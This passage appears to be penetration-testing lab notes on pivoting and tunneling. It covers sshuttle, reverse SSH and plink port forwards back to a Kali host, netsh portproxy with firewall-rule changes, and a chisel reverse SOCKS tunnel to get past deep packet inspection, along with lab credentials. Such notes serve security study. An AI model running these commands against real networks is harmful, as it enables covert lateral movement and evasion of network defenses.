 `kali@kali:~$ sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24`

`kali@kali:~$ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234`

<a name="port-forwarding-with-windows-tools"></a>
## Port Forwarding with Windows Tools
<a name="sshexe"></a>
### ssh.exe
`kali@kali:~$ sudo systemctl start ssh`

`C:\> ssh.exe -V`
> On owned machine. OpenSSH version must be > 7.6

`C:\> ssh -N -R 1080 kali@192.168.49.100`
`kali@kali:~$ proxychains psql -h 10.4.50.215 -U postgres`
 > to remote target

<a name="plink"></a>
### Plink
`C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:3306:127.0.0.1:3306 192.168.49.100` 
> From owned local 9833 to local 3389

`kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833`

<a name="netsh"></a>
### Netsh
`C:\> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215`

`kali@kali:~$ sudo nmap -sS 192.168.50.64 -Pn -n -p2222`

`C:\> netsh advfirewall firewall add rule
name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow`

`kali@kali:~$ sudo nmap -sS 192.168.50.64 -Pn -n -p2222`

`kali@kali:~$ ssh database_admin@192.168.50.64 -p2222`

`C:\> netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64`

<a name="tunneling-through-deep-packet-inspection"></a>
# Tunneling Through Deep Packet Inspection
<a name="http-tunneling-with-chisel"></a>
## HTTP Tunneling with Chisel
`kali@kali:~$ chisel server --port 8080 --reverse
./chisel client IP_Kali:8080 R:socks` 
> On owned machine

`proxychains curl http://127.0.0.1:8000/`
> Works!
